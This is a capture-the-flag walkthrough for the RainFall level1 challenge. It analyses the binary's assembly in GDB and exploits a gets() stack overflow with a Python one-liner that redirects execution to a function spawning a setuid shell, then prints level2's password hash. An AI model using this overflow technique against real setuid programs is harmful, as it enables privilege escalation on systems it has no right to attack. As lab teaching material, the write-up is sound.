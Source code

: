 # Level1

## Walkthrough

We list the files in the current home directory.

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

The file is owned by **level2** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

There are 2 interesting functions: `main()` and `run()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```

The `main()` function:
- decrements the stack pointer by `0x50` bytes
- performs a bitwise `AND` operation on `esp` ([detailled explanation](#calculation-of-esp-after-and-instruction)) to decrement the stack pointer by 8 bytes
- sets the start of a buffer to `esp + 0x10` passed as a first argument to `gets()`
- calls `gets()` before returning

But `run()` is never called.

```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

The `run()` function:
- writes a message
- calls `system()`, passing the data at `0x8048584` as first argument. The address contains the `/bin/sh` string.

With these information in mind, we know that we have to exploit the executable with a **buffer overflow**, overriding the `eip` register at the end of `main()` with the address of `run()`. A buffer of 72 bytes is passed to `gets()` without any validation, allowing us to write more than 64 characters in it.

In order to simplify the calculation of the required number of characters to input, we draw a diagram of the stack.

![Stack diagram](./resources/level1_stack-diagram.png)

92 - 16 = 76 bytes.

We run a **Python** script onto the command line to print 76 characters and append them with 4 bytes representing the address of `run()`.  
Because our system is **little-endian**, we have to pass the address from the least-significant byte to the most-significant one: `0x08048444` becomes `0x44840408`.

```bash
level1@RainFall:~$ python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Our script is working because the message of `run()` is printed on stdout, but the shell process is instantly closed.  
After some researches, we find a solution using the `cat` command.

```bash
level1@RainFall:~$ (python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Additional information

### Calculation of `esp` after `AND` instruction

We set a breakpoint at the `0x08048483 <+3>: and esp,0xfffffff0` instruction to display the content of the `esp` register.

```
(gdb) break *0x08048483
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) info registers
eax            0x1	1
ecx            0xbffff6e4	-1073744156
edx            0xbffff674	-1073744268
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff648	0xbffff648
ebp            0xbffff648	0xbffff648
esi            0x0	0
edi            0x0	0
eip            0x8048483	0x8048483 <main+3>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

`esp` is currently holding the address `0xbffff648`.  
We execute the next instruction with `stepi` and check the new address held by `esp`.

```
(gdb) stepi
0x08048486 in main ()
(gdb) info registers
eax            0x1	1
ecx            0xbffff6e4	-1073744156
edx            0xbffff674	-1073744268
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff640	0xbffff640
ebp            0xbffff648	0xbffff648
esi            0x0	0
edi            0x0	0
eip            0x8048486	0x8048486 <main+6>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

`esp` is now holding the address `0xbffff640`.

| Information | Hexadecimal | Binary |
| --- | --- | --- |
| Before `ADD` | 0xbffff648 | 10111111111111111111011001001000 |
| `AND` second operand | 0xfffffff0 | 11111111111111111111111111110000
| After `AND` | 0xbffff640 | 10111111111111111111011001000000 |

As a result of this `AND` instruction, the stack pointer has been decremented by 8 bytes.

## Resources

- [An Introduction to Buffer Overflow Vulnerability](https://freedium.cfd/https://medium.com/techloop/understanding-buffer-overflow-vulnerability-85ac22ec8cd3#:%7E:text=A%20Beginner%E2%80%99s%20Guide%20to%20Buffer%20Overflow%20Vulnerability%201,Overflow%20...%207%20Security%20Measures%20...%208%20References)
- [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- [Buffer Overflows Part 1 - Jumping to Local Functions](https://www.youtube.com/watch?v=svgK9fNGTfg)
- [Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
